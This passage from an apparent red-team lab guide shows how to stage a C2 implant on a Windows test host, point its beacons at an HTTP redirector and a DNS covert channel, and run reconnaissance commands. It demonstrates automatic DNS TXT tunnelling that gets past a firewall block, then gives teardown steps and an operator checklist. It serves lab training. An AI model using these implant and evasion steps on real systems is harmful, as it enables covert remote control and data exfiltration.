2. Transfer the executable to `win-target` via SCP:
   ```powershell
   scp -i C:\Users\operator\.ssh\target-key .\parallax-windows-amd64.exe analyst@192.168.100.62:C:\Users\analyst\Downloads\
   ```

---

#### Stage 4: Launch the Implant with Dual Transports (HTTP + DNS Failover)
On the `win-target` SSH session, launch the implant with both primary HTTP fronting and secondary DNS covert channel configured:

```cmd
cd C:\Users\analyst\Downloads

:: Configure HTTP Primary Transport (through the Apache Redirector).
:: Base URL and route prefix are SEPARATE vars — see the warning below.
set MERIDIAN_HTTP=http://192.168.100.1:80
set MERIDIAN_URI_PREFIX=/gateway/v1/telemetry

:: Configure DNS Secondary Covert Transport
set MERIDIAN_DNS=192.168.100.1:15353
set MERIDIAN_DNS_DOMAIN=c2.lab.local

:: Execute the implant in background
start /b parallax-windows-amd64.exe
```

---

#### Stage 5: Observe the Live Beacon in Flight Control & CLI
1. Look at your browser on **`http://localhost:8000`** $\rightarrow$ **Fleet Radar**:
   - Within 5 seconds, a new session appears!
   - Shows **Session ID**, Engine **Meridian**, Host **win-target**, User **analyst**, and Transport **HTTP (Proxy)** with live heartbeat pulses.
2. Open a separate terminal on your host to interact with the Meridian console:
   ```powershell
   docker exec -it docker-meridian-1 python3 -m meridian.cli
   ```
3. List active sessions:
   ```text
   sessions
   ```
   You will see your active connection to `win-target`.
4. Interact with the session:
   ```text
   use <session_id>
   ```

---

#### Stage 6: Execute Your First Asynchronous Tasks
Remember: C2 commands do not run synchronously. You queue a task, the beacon checks in, runs it, and returns the encrypted result.

1. Queue an identity reconnaissance command:
   ```text
   exec whoami /all
   ```
2. Wait 3 to 5 seconds (one beacon sleep cycle), then view the output:
   ```text
   results
   ```
   You will see the complete user token, SID, and domain groups for `LAB\analyst`!
3. Queue network reconnaissance:
   ```text
   exec ipconfig /all
   results
   ```

---

#### Stage 7: The "Holy Grail" Test — Simulating Egress Block & Automatic DNS Escape
This is the ultimate test of covert C2 resilience: what happens when the SOC detects and kills outbound HTTP traffic?

1. On the `win-target` SSH terminal (as administrator or member), block outbound TCP port 80:
   ```cmd
   netsh advfirewall firewall add rule name="Block-C2-HTTP" dir=out action=block protocol=TCP remoteport=80
   ```
2. **Observe the Magic**:
   - The implant attempts its next HTTP beacon and gets an immediate connection reset from the Windows firewall.
   - Without dropping the session or dying, **Meridian automatically falls over to UDP DNS TXT tunneling** over port 15353!
3. Look at the **Flight Control Web UI**:
   - In **Fleet Radar**, the Transport indicator seamlessly changes from `HTTP (Proxy)` to `DNS TXT`.
   - In the **DNS TXT Covert Dissector** tab, you will see real-time incoming Base32 query labels arriving at UDP `15353`.
4. In your Meridian CLI console, execute a command over pure DNS:
   ```text
   exec hostname
   ```
5. Wait for the DNS chunks to assemble, then read the results:
   ```text
   results
   ```
   *The command executed and returned its output entirely inside DNS TXT packets over UDP, bypassing the firewall block!*

---

#### Stage 8: Clean Tear-Down
1. In the `win-target` terminal, remove the test firewall block:
   ```cmd
   netsh advfirewall firewall delete rule name="Block-C2-HTTP"
   ```
2. Terminate the background implant:
   ```cmd
   taskkill /f /im parallax-windows-amd64.exe
   ```
3. Clean up the test binary:
   ```cmd
   del C:\Users\analyst\Downloads\parallax-windows-amd64.exe
   ```

Congratulations! You have completed a full, real-world C2 lifecycle: fronted ingress validation, implant staging, asynchronous execution, and automated covert DNS failover!


---

## 9. Summary Checklist for Operators

- [ ] **Docker Host Verified**: Docker Desktop running, `.env` file created and customized.
- [ ] **Portal Active**: Flight Control UI running at `http://localhost:8000` with all service cards green.
- [ ] **Redirector Active**: Port 80 listening; decoy page verified on raw `curl` or in the Portal Visualizer.
- [ ] **Framework Selected**: Picked appropriate C2 based on engagement objectives (Meridian for DNS, Havoc for EDR evasion, Sliver for lateral movement).
- [ ] **Header Configured**: Guaranteed payloads include `X-Request-ID: cadre-c2`.
- [ ] **Persistence Checked**: Confirmed Docker named volumes (`meridian_data`, `sliver_data`, `havoc_data`) persist session state across container restarts.
